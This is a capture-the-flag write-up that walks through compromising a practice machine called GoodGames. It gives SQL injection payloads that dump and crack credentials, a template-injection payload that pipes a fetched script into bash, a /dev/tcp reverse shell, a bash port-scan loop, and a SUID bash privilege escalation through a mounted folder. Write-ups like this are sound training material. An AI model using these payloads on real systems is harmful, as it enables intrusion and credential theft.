



# [](#header-1)Port Scan
First thing we do is scanning every port from the IP, for a faster scan we use TCP SYN with the parameter `-sS`
```sh
nyeees@parrot$ nmap -p- --open -sS --min-rate 5000 -v -n -Pn 10.10.11.130 -oN totalPorts
```
```sh
PORT   STATE SERVICE
80/tcp open  http
```
We analyze the versions and use a default script from nmap to get detailed info.
```sh
nyeees@parrot$ nmap -sCV -p80 10.10.11.130 -oN PortScanned
```
```sh
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
| http-server-header: 
|   Werkzeug/2.0.2 Python/3.6.7
|_  Werkzeug/2.0.2 Python/3.9.2
| http-title:     Flask Volt Dashboard -  Sign IN  | AppSeed
|_Requested resource was http://internal-administration.goodgames.htb/login
Service Info: Host: goodgames.htb
```

With the detailed scan we can see some domains: 
**goodgames.htb**
**internal-administration.goodgames.htb**
So I add them in the /etc/hosts
```sh
File: /etc/hosts
───────┼──────────────────────────────────────────────────────────────────────────
   1   │ # Host addresses
   2   │ #
   3   │ 127.0.0.1  localhost
   4   │ 127.0.1.1  kikolon-vmwarevirtualplatform
-> 5   │ 10.10.11.130    internal-administration.goodgames.htb   goodgames.htb
   6   │ 
   7   │ ::1        localhost ip6-localhost ip6-loopback
   8   │ ff02::1    ip6-allnodes
   9   │ ff02::2    ip6-allrouters
```


# [](#header-2)Web
> In the web we have a login that may be vulnerable to sql injection


I try to execute an sqli, but it seems to be sanitized. Let's try it in Burp Suite 



In the first post i will try to inject sql querys in the password field
And after doing that there's no change in the response that we get from the Burp Suite repeater.
Now let's try with the email...



We got it, just with a simple sqli we got a cookie, and if we go the line 99 from the response we can see this:
```js
<h2 class="h4">
	Welcome admin
</h2>
```

Going back to the page we can see we are logged in with the admin session.
But lets try to get more information from the sqli
```sql
email=nyees%40gmail.com' order by 4-- -
  
```
We list the databases:
```sql
email=nyees%40gmail.com' union select 1,2,3,schema_name from information_schema.schemata-- - 
```
And got the database 'main'.Now the tables:
```sql
email=nyees%40gmail.com' union select 1,2,3,table_name from information_schema.tables where table_schema='main'-- -
```
Oh there's a table named users, lets dig into that...
```sql
email=nyees%40gmail.com' union select 1,2,3,column_name from information_schema.columns where table_name='user'-- -
```
Yesssss,here there are all the users their passwords, so we get them:
```sql        
email=nyees%40gmail.com' union select 1,2,3,group_concat(name,password) from user-- -
```
Okay, we got credentials, but there aren't the passwords in plain text, it is a hash and by its length its seems to be using the protocol MD5.
Lets crack the password from the admin
```sh
john credentials.txt --format=Raw-MD5
```
Having the password from the admin lets have a look in the other domain that we included in the /etc/hosts : **internal-administration.goodgames.htb**


So the credentiales are correct!!. In this new panel if we go to settings we can change some info about the admin. And not only that but we can execute a Server-side Template injection (SSTI)




With the github [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) Im able to use a template that gives me an RCE

```
self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://10.10.16.9:8080/shell.sh|bash').read() 
```
The curl is pointing to a server that i opened in python with the command:

```sh
nyeees@parrot$ sudo python3 -m http.server 8080
```
In this server there is a script that if executed will give me a rever shell:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.9/443 0>&1
```
So i listen in the port  443 with netcat and...
<br><br>


WE ARE IN!!!!
<br><br>
It seems we are root, but when i execute hostname -I shows the ip `172.19.0.2`, this is not the machine's ip, it seeems we are in a container. 


# [](#header-3)Privilege escalation (Container)
The user flag is easy to get, i went to the /home directory and there is a user called augustus, where you can see the user.txt
<br><br>
In this container i cann't see any file that gives me information, and in the /etc/passwd the augustus user does not exists, maybe this user is from the original machine.
<br><br>
If the user is from the machine, then the /home/augustus directory is connected to the machine, so i run the command:

```sh
root@3a453ab39d3d:/# mount -n | grep "augustus"
```

And yes, it tells me that there is a mount with this folder :

```sh
/dev/sda1 on /home/augustus
```

Now i will try to see if there are more opened ports in the machine, sending pings to the gateway, where the machine is located, for making this posible i runned this script in bash inside the container:

```sh
function ctrl_c(){
  echo "Saliendo..."
  exit 1
}


trap ctrl_c INT

for i in {0..66000};do

	timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$i 2>/dev/null && echo 'puerto $i abierto'" &
  
done
```
I runned this script and i got that the port 22 is also opened... And i had some credentials from before that i have to try. And trying:

```sh
ssh august@172.19.0.1
```
With the password that i got previously... IM IN!!! , and now in the original machine.
# [](#header-4)Privilege escalation (Root)
For getting the root flag you need a good understanding about how a folder is mounted, because the solution is very fast but different.
<br><br>
If the folder /home/augustus is mounted in the original machine it tells me that if we make a change on the container (where we have root) then it changes as well in the original machine. So first, i copy the bash in the original machine
<br><br>

```sh
augustus@GoodGames:~$ cp /bin/bash .
```
After that I come back to the container and change the owner to root and give suid permissions

```sh
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755  bash
```
Finally I just have to run the parameter `bash -p` in the original machine, and we get a bash with root permissions. :)


